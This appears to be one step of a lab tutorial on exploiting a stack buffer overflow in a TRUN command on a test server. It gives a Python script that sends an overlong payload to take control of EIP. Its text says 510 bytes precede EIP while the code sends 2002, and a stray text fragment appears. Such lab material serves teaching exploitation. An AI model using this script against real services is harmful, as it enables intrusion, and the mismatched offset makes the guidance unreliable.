 # Overwriting the EIP

In previous step, we successfully overflowed the buffer, which means that we have control over the data that will overwrite the `EIP` (Extended Instruction Pointer).

To proceed with overwriting the `EIP`, we need to consider that there are `510` bytes preceding the `EIP`. Therefore, we will send `510` bytes filled with 'A' characters to reach the `EIP`, followed by `4` bytes filled with 'B' characters to overwrite the `EIP`.
riting the `EIP`, w
```python
#!/bin/python

import sys
import socket
from time import sleep

shellcode = "A"* 2002 + "B"* 4
try:
      s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.40.135',9999))
      s.send(('TRUN / .:/' + shellcode))
      s.close()
except:
      print "Error connecting to server"
      sys.exit()
```
<p></p>

<img alt="" class="bg hc hd c" width="1000" height="620" loading="lazy" role="presentation" src="https://i.ibb.co/5YVvYKk/4-Overwrite-EIP.png"></img>

 The `EBP` (Extended Base Pointer) was filled with 'A's `(41414141)`, and the `EIP` was filled with 'B's `(42424242)`.


                         
              

